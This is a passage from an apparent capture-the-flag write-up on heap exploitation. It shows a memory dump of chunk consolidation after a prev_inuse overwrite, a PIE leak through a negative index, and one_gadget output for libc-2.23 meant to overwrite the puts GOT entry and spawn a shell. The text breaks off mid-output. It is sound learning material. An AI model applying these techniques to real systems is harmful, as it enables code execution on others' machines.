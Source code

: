 #### Consolidation

When we overwrite the `prev_inuse` bit and free the subsequent chunk, the memory will look like this:
```
0x5648006454a0:	0x0000000000000000	0x0000000000000271  <consolidated free chunk>
0x5648006454b0:	0x00007ff43da26b78	0x00007ff43da26b78
0x5648006454c0:	0x3232323232323232	0x3232323232323232
0x5648006454d0:	0x0000000000000000	0x0000000000000000
0x5648006454e0:	0x0000000000000000	0x0000000000000000
0x5648006454f0:	0x0000000000000000	0x0000000000000000
0x564800645500:	0x0000000000000000	0x0000000000000000
0x564800645510:	0x0000000000000000	0x0000000000000000
0x564800645520:	0x0000000000000000	0x0000000000000000
0x564800645530:	0x0000000000000000	0x0000000000000000
0x564800645540:	0x0000000000000000	0x0000000000000000
0x564800645550:	0x0000000000000000	0x0000000000000000
0x564800645560:	0x0000000000000000	0x0000000000000000
0x564800645570:	0x0000000000000000	0x0000000000000000
0x564800645580:	0x0000000000000000	0x0000000000000000
0x564800645590:	0x0000000000000000	0x0000000000000000
0x5648006455a0:	0x0000000000000100	0x0000000000000070  <forgotten chunk>
0x5648006455b0:	0x3636363636363636	0x3636363636363636
0x5648006455c0:	0x3636363636363636	0x3636363636363636
0x5648006455d0:	0x3636363636363636	0x3636363636363636
0x5648006455e0:	0x3636363636363636	0x3636363636363636
0x5648006455f0:	0x3636363636363636	0x3636363636363636
0x564800645600:	0x3636363636363636	0x3636363636363636
0x564800645610:	0x0000000000000170	0x0000000000000100  <overwritten chunk (freed)>
0x564800645620:	0x3434343434343434	0x3434343434343434
```

Now if we allocate 0x100 (so if we ask for 0xf0), we're gonna have a leftover chunk that will coincide with the forgotten chunk.

#### PIE leak

As for the PIE leak I couldn't find it without the tutorial's lead. Also, being able to give a negative index suprised me ! The program does not seem to care, so that was a blind spot to me.

Anyway, if we ask to rename the `-10`th entry, it will give us the leak.

BTW the leak corresponds to `__dso_handle`, which appears to act as [a guard used fo identify dynamic shared object during global destruction](https://stackoverflow.com/questions/34308720/where-is-dso-handle-defined). In ghidra, we can find it at the end of the `.data` section.

### Overwrite

Now that we have all the leak all we need to do is to overwrite something to pop a shell. In the tutorial, this something is the got entry of `puts`, and we put a gadget instead:
```bash
❯ one_gadget libc-2.23.so
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
```